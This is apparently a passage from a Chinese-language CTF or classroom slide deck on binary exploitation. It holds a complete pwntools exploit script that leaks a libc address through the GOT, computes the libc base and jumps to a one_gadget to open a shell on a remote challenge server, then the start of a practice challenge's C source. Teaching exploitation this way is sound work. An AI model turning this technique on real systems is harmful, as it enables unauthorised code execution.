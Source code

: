 --

# 最佳解

```python
from pwn import *

io = remote('sv.duckll.tw', 7777)
#  io=process('./a.out')

elf = ELF('./a.out')
libc = ELF('./libc.so.6')


def send(key, value):
    io.sendafter(":", str(key))
    io.sendlineafter(":", str(value))


#printf(got['read'])
send(0, elf.got['read'])
send(6, elf.plt['printf'])

leak = io.recvuntil("\x7f")
libc_fgets = u64(leak.ljust(8, '\x00'))
log.info("libc_fgets@{}".format(hex(libc_fgets)))

libc_base = libc_fgets - libc.symbols['read']
log.info("libc_base@{}".format(hex(libc_base)))

libc_onegadget = libc_base + 0xef6c4
log.info("libc_system@{}".format(hex(libc_onegadget)))

#one_gadget
send(6, libc_onegadget)

io.interactive()
```

---

# 課堂練習

read & write

```c
#include <stdio.h>
#include <string.h>
#include <unistd.h>
#include <stdbool.h>
#include <stdlib.h>
#include <signal.h>
#include <time.h>
#define TIMEOUT 30

void handler(int signum){
    puts("Timeout");
    _exit(1);
}
void init_proc(){
    setvbuf(stdin,0,2,0);
    setvbuf(stdout,0,2,0);
    setvbuf(stderr,0,2,0);
```